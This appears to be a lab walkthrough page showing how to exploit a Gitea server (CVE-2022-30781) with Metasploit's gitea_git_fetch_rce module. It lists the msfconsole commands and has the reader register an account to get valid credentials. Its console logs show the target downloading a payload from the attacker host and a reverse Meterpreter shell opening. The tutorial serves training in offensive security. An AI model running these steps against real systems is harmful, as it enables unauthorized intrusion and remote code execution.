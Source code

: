 +++
title = "Metasploit"
weight = 1
+++

## Searching Metasploit
Start up your *msfconsole* and search for the Gitea exploit.
`search gitea`
![](./metasploit01.png)
You will recall that your target Gitea server is potentially vulnerable to *CVE-2022-30781* and that the remediation commit in Github 
references escaping the git fetch remote URL.  In this case we're interested in option *#0*.  Load up this exploit module with either:

`use 0`

`use exploit/multi/http/gitea_git_fetch_rce`

## Attempting the exploit
Typing *show options* tells us we need to set a couple of options

* **RHOSTS** - Our target IP address
* **LHOST**  - The IP of our attacking machine
* **USERNAME** - Presumably Gitea credentials
* **PASSWORD** - Presumably Gitea credentials

Setting values within *msfconsole* is really straight forward.

 * `set RHOSTS 192.168.0.105`
 * `set LHOST 192.168.0.103`
 * `set USERNAME guest`
 * `set PASSWORD guest`
 * `set SRVPORT 8181` - The port on our machine we'll tell Gitea to connect to
 * `set ForceExploit true` - Ignores whatever the *check* module returns
 * `run` - Try the exploit

```bash
[*] Started reverse TCP handler on 192.168.0.103:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. Check TARGETURI - Unexpected HTTP response code ForceExploit is enabled, proceeding with exploitation.
[*] Using URL: http://192.168.0.103:8181/
[*] Using URL: http://192.168.0.103:8181/3oYWb2XU9
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/gitea_git_fetch_rce) > 
```

## Creating a user
It looks like our exploit will require valid credentials to Gitea.  Check if the server allows account creation.
![](./gitea01.png)

It looks like we can create a new user account!
![](./gitea02.png)

Now head back to your *msfconsole* and set the *USERNAME* and *PASSWORD* for the user account you just created and try the exploit again.

```bash
[*] Started reverse TCP handler on 192.168.0.103:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://192.168.0.103:8181/
[*] Using URL: http://192.168.0.103:8181/bnQOtbfkgbqrJGD
[*] Client 192.168.0.105 (curl/7.47.0) requested /bnQOtbfkgbqrJGD
[*] Sending payload to 192.168.0.105 (curl/7.47.0)
[*] Sending stage (3045348 bytes) to 192.168.0.105
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Meterpreter session 1 opened (192.168.0.103:4444 -> 192.168.0.105:42720) at 2023-03-21 14:46:55 -0500

meterpreter > 
```
